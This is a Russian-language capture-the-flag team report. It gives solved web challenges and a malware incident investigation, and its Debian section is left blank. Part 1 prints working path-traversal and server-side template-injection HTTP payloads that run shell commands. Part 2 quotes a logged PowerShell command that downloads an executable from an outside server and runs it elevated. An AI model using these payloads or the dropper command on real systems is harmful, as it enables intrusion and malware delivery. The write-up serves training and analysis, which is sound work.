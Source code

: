 # Отчёт команды "The Vermillion Team" (No. 26)
## Part 1. Наступательная кибербезопасность.

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`


## Part 2. Расследование инцидента.

### Виртуальная машина на ОС "Windows 10"

#### 1. Каким образом вредоносное ПО попало на компьютер пользователя? (5 PTS)

Согласно легенде, файл был отправлен Валере незнакомцем. Можно утверждать, что ВПО попало на компьютер пользователя в результате **фишинга** (человеческого фактора).

#### 2. С какого сервера была скачана полезная нагрузка? (5 PTS)

Рассмотрим журнал логирования событий Windows. В ходе поиска по ключевому слову `http://` мы нашли следующее вхождение:
```
ProviderName=FileSystem NewProviderState=Started SequenceNumber=7 HostName=ConsoleHost HostVersion=5.1.19041.906 HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1 HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop EngineVersion= RunspaceId= PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

Cледовательно, файл был скачан с сервера `95.169.192.220`.

#### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО? (5 PTS)

При помощи CVE на WinRAR, выполняющейся в cmd.

#### 4. Какие методы противодействия отладке использует программа? (10 PTS)

Встроенные функции (`IsDebuggerPresent()`, `CheckRemoteDebuggerPresent()`) для проверки присутствия отладчика, TLS Callbacks (`TlsAlloc()`, `TlsGetValue()`, `TlsSetValue()`).

#### 5. Какой алгоритм шифрования используется при шифровании данных? (10 PTS)

Откроем файл вируса по пути `…/AppData/Roaming/Rjomba.exe`. В нем при использовании команды `binwalk` можно обнаружить `AES S-BOX` и `INVERSE AES S-BOX`. При поиске в обычном текстовом редакторе можно натнуться на сообщения про некорректное использование Cipher Mode. Перебором всех главных режимов работы AES находим упоминание **CBC** (Cipher Block Chaining). Нетрудно обнаружить и поле с упоминанием длины шифроключа (**256** бит). Значит, при шифровании данных использовался протокол *AES-CBC-256*.

#### 6. Какой ключ шифрования используется при шифровании данных? (25 PTS)

Значение ключа шифрования хранится в памяти, следовательно, чтобы получить ключ, необходимо осуществить дамп памяти. Одним из инструментов, которые могут помочь нам с этим, является **Process Explorer**. Установим его и перебросим на виртуальную машину. Чтобы избежать антиотладки, переименуем тулзу и запустим Rjomba.exe. Сделаем дамп памяти процесса rjomba.exe. Дальше в этом дампе найдем строки, похожие на ключ (длиной 32):
```bash
strings Rjomba111.dmp | grep -x '.\{32,32\}'
```
Находим значение `amogusamogusamogusamogusamogusam`. Чтобы найти вектор инициализации, сделаем поиск по этой строке:
```bash
strings Rjomba111.dmp | grep -x '.\{16,32\}'
```
\- и найдём вектор иницилизации: `abababababababab`.

#### 7. Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? (20 PTS)

В том же дампе находим вебхуки `Telegram`. Злоумышленник отсылает собранные данные именно туда, а на endpoint аутентифицируется посредством токена.

#### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе? (40 PTS)

Зная значение ключа, вектора инициализации и значение пароля, возможно однозначно расшифровать сообщение. При помощи инструмента CyberChef получаем итоговый ответ: ```sFYZ#2z9VdUR9sm`3JRz```.

### Виртуальная машина на ОС "Debian"

#### 1. Какой сервис на данном сервере уязвим? Какая версия? (20 PTS)

...

#### 2. Какой тип уязвимости использовал злоумышленник? (20 PTS)

...

#### 3. Какие ошибки были допущены при конфигурации сервера? (20 PTS)

...


#### 4. Как злоумышленник повысил привилегии? (20 PTS)

...


#### 5. Как злоумышленник получил доступ к серверу на постоянной основе? (20 PTS)

...

#### 6. Как злоумышленник просканировал систему? (10 PTS)

...

#### 7. С помощью какого ВПО злоумышленник закрепился на сервере? (10 PTS)

...

